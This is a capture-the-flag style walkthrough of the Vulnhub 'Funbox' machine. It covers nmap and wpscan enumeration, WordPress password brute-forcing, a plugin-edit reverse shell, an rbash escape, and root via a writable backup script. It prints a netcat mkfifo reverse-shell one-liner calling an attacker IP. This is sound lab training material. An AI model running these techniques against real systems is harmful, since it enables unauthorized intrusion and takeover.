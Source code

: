 # Funbox ~Vulnhub Walkthrough

Here is Walkthrough of Vulnhub Machine Funbox Boot2Root ! This is a reallife szenario, but easy going. You have to enumerate and understand the szenario to get the root-flag in round about 20min.

## Scanning

**nmap -p- 192.168.122.151 (Full port scan)**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled.png)

**nmap -sV -A 192.168.122.151 (Service version scan)**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%201.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%201.png)

**nmap -sV -A --script vuln 192.168.122.151 (Vulnerability scaning)**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%202.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%202.png)

Running nikto on web

**nikto -h http://192.168.122.151**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%203.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%203.png)

Adding funbox.fritz.box in /etc/hosts

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%204.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%204.png)

## Enumeration

Open funbox.fritz.box in browser

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%205.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%205.png)

This site is wordpress site. So we'll run wpscan to enumerate username and password

**wpscan --url http://funbox.fritz.box/ -e u**

```jsx
root@kali:~# wpscan --url http://funbox.fritz.box/ -e u
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time
[i] Last database update: 2018-08-21
[?] Do you want to update now? [Y]es  [N]o  [A]bort update, default: [N] > n
[+] URL: http://funbox.fritz.box/
[+] Started: Sun Aug 16 07:07:28 2020

[+] Interesting header: LINK: <http://funbox.fritz.box/index.php/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: LINK: <http://funbox.fritz.box/>; rel=shortlink
[+] Interesting header: SERVER: Apache/2.4.41 (Ubuntu)
[+] robots.txt available under: http://funbox.fritz.box/robots.txt   [HTTP 200]
[+] Interesting entry from robots.txt: http://funbox.fritz.box/secret/   [HTTP 200]
[+] XML-RPC Interface available under: http://funbox.fritz.box/xmlrpc.php   [HTTP 405]
[+] Found an RSS Feed: http://funbox.fritz.box/index.php/feed/   [HTTP 200]
[!] Detected 1 user from RSS feed:
+-------+
| Name  |
+-------+
| admin |
+-------+
[!] Upload directory has directory listing enabled: http://funbox.fritz.box/wp-content/uploads/
[!] Includes directory has directory listing enabled: http://funbox.fritz.box/wp-includes/

[+] Enumerating WordPress version ...

[+] WordPress version 5.4.2 

[+] WordPress theme in use: twentyseventeen - v2.3

[+] Name: twentyseventeen - v2.3
 |  Latest version: 1.7 (up to date)
 |  Last updated: 2018-08-02T00:00:00.000Z
 |  Location: http://funbox.fritz.box/wp-content/themes/twentyseventeen/
 |  Readme: http://funbox.fritz.box/wp-content/themes/twentyseventeen/readme.txt
 |  Style URL: http://funbox.fritz.box/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating plugins from passive detection ...
[+] No plugins found passively

[+] Enumerating usernames ...
[+] We identified the following 2 users:
    +----+-------+------------+
    | ID | Login | Name       |
    +----+-------+------------+
    | 1  | admin | admin      |
    | 2  | joe   | joe miller |
    +----+-------+------------+
[!] Default first WordPress username 'admin' is still used

[+] Finished: Sun Aug 16 07:07:35 2020
[+] Elapsed time: 00:00:06
[+] Requests made: 265
[+] Memory used: 31.73 MB
root@kali:~# 
```

Found two users admin and joe

Bruteforcing password using wpscan

**wpscan --url [http://funbox.fritz.box/](http://funbox.fritz.box/) --wordlist /usr/share/seclists/Passowrds/darkweb2017-top10000.txt --username admin**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%206.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%206.png)

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%207.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%207.png)

admin password: iubire

**wpscan --url [http://funbox.fritz.box/](http://funbox.fritz.box/) --wordlist /usr/share/seclists/Passowrds/darkweb2017-top10000.txt --username joe**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%208.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%208.png)

joe password: 12345

Login in http://funbox.fritz.box/wp-login.php using admin credential

Editing plugin akismet/akismet.php to take reverse shell

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%209.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%209.png)

Save the edited plugin and access in browser

funbox.fritz.box/wp-content/plugins/akismet/akismet.php

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2010.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2010.png)

Side by side start listener on port 1234

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2011.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2011.png)

Got shell of www-data user

using joe:12345 credential to connect using ssh

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2012.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2012.png)

cd: restricted

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2013.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2013.png)

To escape rbash, connect through ssh using command

**ssh joe@192.168.122.151 -t "bash --norprofile"**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2014.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2014.png)

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2015.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2015.png)

Found .backup.sh file having full permission to other user in /home/funny directory

Edit file and put reverse shell payload

#!bin/bash 

rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.122.148 4444 >/tmp/f

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2016.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2016.png)

start listener on port 4444

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2017.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2017.png)

After 4-5 min we got shell of root user.

cd /root 

cat flag.txt

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2018.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2018.png)
